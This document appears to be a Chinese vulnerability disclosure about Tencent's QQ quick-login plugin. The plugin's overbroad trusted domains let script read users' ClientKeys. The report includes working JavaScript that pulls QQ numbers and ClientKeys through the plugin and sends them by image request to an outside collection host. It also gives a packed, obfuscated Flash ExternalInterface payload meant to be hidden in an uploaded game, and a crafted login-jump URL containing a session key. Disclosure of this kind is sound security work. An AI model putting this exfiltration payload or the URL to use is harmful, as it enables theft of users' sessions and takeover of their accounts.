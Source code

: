 

## 简要描述



这个本来是设计的问题,腾讯在设计快速登陆模块插件的时候允许太多可信域来使用这个插件来获取本机上QQ 的ClientKey ,可信域究竟多到什么程度呢?居然在可信域里面可以找到一个皇家赌场的站点...只要在插件上的可信站点找到一处XSS 即可利用,于是找到其中一处可信域上传flash 可以执行javascript 来实现ClientKey 的获取,只要flash 审核通过后还可以大规模盗取ClientKey ..



## 详细说明



出现问题的插件在Chrome 浏览器下是默认导入的:



![](pic_temp3\1.jpeg)



在IE 中,该插件又会以Active 控件导入到浏览器中:



![](pic_temp3\2.jpeg)



接下来说说插件里面的可信域,登陆插件为了防止给其它站点恶意获取用户的敏感信息所以只给下面的域来访问:



![](pic_temp3\3.png)



插件数据获取测试代码如下:



```javascript
var user_information='';

if (navigator.mimeTypes['application/nptxsso']) {  //  Chrome
    var plug=document.createElement('embed');
    plug.type='application/nptxsso';
    document.body.appendChild(plug);
    plug.InitPVA();
    for (var user_index=0,user_count=plug.GetPVACount();user_index
        user_information+='Chrome=>uin:'+plug.GetUin(user_index)+' key:'+plug.GetST(user_index)+';';
        console.log('Chrome=>uin:'+plug.GetUin(user_index)+' key:'+plug.GetST(user_index));
    }
} else {  //  IE
    var plug=new ActiveXObject('SSOAxCtrlForPTLogin.SSOForPTLogin2');
    var data=plug.CreateTXSSOData();
    plug.InitSSOFPTCtrl(0,data);
    var data_list=plug.DoOperation(1,data);
    for (var user_list=data_list.GetArray('PTALIST'),user_index=0,user_count=plug.GetPVACount();user_index
        var user=user_list.GetData(user_index);
        var client_key='';
        for (var buffer=user.GetBuf('bufST_PTLOGIN'),read_index=0,read_count=user.GetSize();read_index
            var bit='0'+buffer.GetAt(read_index).toString('16');
            client_key+=bit;
        }
        user_information+='IE=>uin:'+user.GetDWord('dwSSO_Account_dwAccountUin').toString()+' key:'+client_key+';';
        console.log('IE=>uin:'+user.GetDWord('dwSSO_Account_dwAccountUin').toString()+' key:'+client_key);
    }
}
```



在不可信的站点下执行,插件会抛出错误:



![](pic_temp3\4.jpeg)



在可信域里面执行可以获取到敏感信息:



![](pic_temp3\5.jpeg)



刚才说到,有个赌场的网站也在里面,这就给证明,站点http://ejinshang.com/ :



![](pic_temp3\6.jpeg)



然后在这些域里面找了很久没有找到XSS ,但是找到了3366.com ,里面可以自己上传flash 游戏,而且还是默认启用javascript 接口(因为flash 需要调用后面的云js 接口交互,所以支持flash 执行javascript ),于是可以结合瘦子哥的flash XSS 的原理来执行javascript 代码获取用户敏感数据( [WooYun: [腾讯实例教程\] 那些年我们一起学XSS - 15. Flash Xss进阶 [ExternalInterface.call第一个参数]](http://www.wooyun.org/bugs/wooyun-2012-016532) )



![](pic_temp3\7.png)



flash 运行javascript 的域:



![](pic_temp3\8.png)



有上面作为铺垫之后,在flash 里面写出下面的接收数据的代码

原来的javascript :



```javascript
var user_information='';

if (navigator.mimeTypes['application/nptxsso']) {  //  Chrome
    var plug=document.createElement('embed');
    plug.type='application/nptxsso';
    document.body.appendChild(plug);
    plug.InitPVA();
    for (var user_index=0,user_count=plug.GetPVACount();user_index
        user_information+='Chrome=>uin:'+plug.GetUin(user_index)+' key:'+plug.GetST(user_index)+';';
        console.log('Chrome=>uin:'+plug.GetUin(user_index)+' key:'+plug.GetST(user_index));
    }
} else {  //  IE
    var plug=new ActiveXObject('SSOAxCtrlForPTLogin.SSOForPTLogin2');
    var data=plug.CreateTXSSOData();
    plug.InitSSOFPTCtrl(0,data);
    var data_list=plug.DoOperation(1,data);
    for (var user_list=data_list.GetArray('PTALIST'),user_index=0,user_count=plug.GetPVACount();user_index
        var user=user_list.GetData(user_index);
        var client_key='';
        for (var buffer=user.GetBuf('bufST_PTLOGIN'),read_index=0,read_count=user.GetSize();read_index
            var bit='0'+buffer.GetAt(read_index).toString('16');
            client_key+=bit;
        }
        user_information+='IE=>uin:'+user.GetDWord('dwSSO_Account_dwAccountUin').toString()+' key:'+client_key+';';
        console.log('IE=>uin:'+user.GetDWord('dwSSO_Account_dwAccountUin').toString()+' key:'+client_key);
    }
}

var local_url=window.location.href;
var local_cookie=/*'Cookie:'+document.cookie+*/' ClientKey:'+user_information;
var local_ip='';//returnCitySN['cip'];
var id=1;
var url='http://easysmsattack.sinaapp.com/XSS_Get_Cookie/receive.php?current_cookie='+local_cookie+'&manage_id='+id+'&current_url='+local_url+'&current_ip='+local_ip;
var img=document.createElement('img');
img.src=url;
document.body.appendChild(img);
```



加密转换为Action Script 之后:



```javascript
ExternalInterface.call("eval","function(p,a,c,k,e,d){e=function(c){return(c35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\\\b'+e(c)+'\\\\b','g'),k[c]);return p;}('2 9='';1h(I.H['w/t']){2 3=a.E('R');3.Q='w/t';a.A.D(3);3.U();g(2 4=0,b=3.k();4**8:'+3.v(4)+' 7:'+3.F(4)+'\\\\n';o.m('C=>8:'+3.v(4)+' 7:'+3.F(4))}}T{2 3=M L('O.G');2 f=3.P();3.N(0,f);2 r=3.S(1,f);g(2 j=r.K('J'),4=0,b=3.k();48:'+5.q('h').e()+' 7:'+d+'\\\\n';o.m('s=>8:'+5.q('h').e()+' 7:'+d)}};2 u=1d.1e.1f;2 z=' 17:'+9;2 y='';2 x=1;2 B='Z://X.V.W/10/14.15?13='+z+'&11='+x+'&12='+u+'&Y='+y;2 c=a.E('c');c.1g=B;a.A.D(c);',62,80,'||var|plug|user_index|user|read_index|key|uin|user_information|document|user_count|img|client_key|toString|data|for|dwSSO_Account_dwAccountUin|buffer|user_list|GetPVACount|read_count|log||console|bit|GetDWord|data_list|IE|nptxsso|local_url|GetUin|application|id|local_ip|local_cookie|body|url|Chrome|appendChild|createElement|GetST|SSOForPTLogin2|mimeTypes|navigator|PTALIST|GetArray|ActiveXObject|new|InitSSOFPTCtrl|SSOAxCtrlForPTLogin|CreateTXSSOData|type|embed|DoOperation|else|InitPVA|sinaapp|com|easysmsattack|current_ip|http|XSS_Get_Cookie|manage_id|current_url|current_cookie|receive|php||ClientKey|GetSize|GetAt|bufST_PTLOGIN|GetData|GetBuf|window|location|href|src|if'.split('|'),0,{});");
```



执行结果如下:



![](pic_temp3\9.png)



然后到后台可以看到记录,Link:http://1.easysmsattack.sinaapp.com/XSS_Get_Cookie/admin_cookie.php (麻烦打个码)



![](pic_temp3\10.jpeg)



如果这个flash 游戏可以经过审核(一个星期前传了个小游戏昨天才给审批,不过审核很容易的,flash 游戏代码所以百度都有很多,然后插恶意代码进去上传提交即可)的话那么玩这个小游戏的人都可以拿到他们的ClientKey (前提是快速登陆插件已经被导入到浏览器)



使用flash 执行javascript 的代码有点盲目,那么如何构造链接来让对方点击呢?呆子哥的思路很好,在此借鉴一下([WooYun: 你windows上开着QQ点了我的链接我就进了你的qq邮箱财付通等（任意腾讯xss拿qq的clientkey）](http://www.wooyun.org/bugs/wooyun-2015-0155520) ),登陆QQ 空间的URL 格式如下:https://ssl.ptlogin2.qq.com/jump?pt_clientver=5473&pt_src=1&keyindex=9&ptlang=2052&clientuin=QQ号&clientkey=ClientKey&u1=要跳转到的目的URL



以此为基础,构造出:



```txt
https://ssl.ptlogin2.qq.com/jump?pt_clientver=5473&pt_src=1&keyindex=9&ptlang=2052&clientuin=528572326&clientkey=0001570A16730068BCBAD391F63F0BF4EBB022EDA6E9C993A7D954EE027329EEF35D7DCB6C1E165F9E9B80E50D77B35AF3E367B33F1C7F4FFB2E780D62DF690EF813F4981E03699489DCD8BEF0D0F4247A050E0DEE3C272EC771838829F7D5A0C81A2A80E6C497FBD7E384F8DBF66801&u1=http%3A%2f%2fwww.3366.com%2fflash%2fpreview_detail.shtml%3Fopengameid%3D32434%26height%3D420%26width%3D580
```



注意:可能在你访问的时候无法正常加载flash ,下面有解释..



然后发给别人来访问,测试结果:



![](pic_temp3\11.jpeg)



![](pic_temp3\12.jpeg)



如果在测试中发现无法加载flash 有两个原因:



1.由于现在ClientKey 不再是以前那样一条Key 任意登陆了,只有当客户端开启的时候才可以使用ClientKey ,如果关闭了的话就无法再使用了.因为3366.com 的游戏测试flash 有限制,如果不是这个游戏的开发者没有办法在测试状态下去访问游戏的flash ,自然也就不能正常加载flash ,所以在复现漏洞的话建议写个小小的flash ,上传然后找到测试链接,再结合自己的QQ 号和ClientKey 填到登陆跳转URL 里面;



2.有些主机的浏览器里面没有装这个插件,复现的时候注意看看`navigator.mimeTypes['application/nptxsso']` 有没有存在

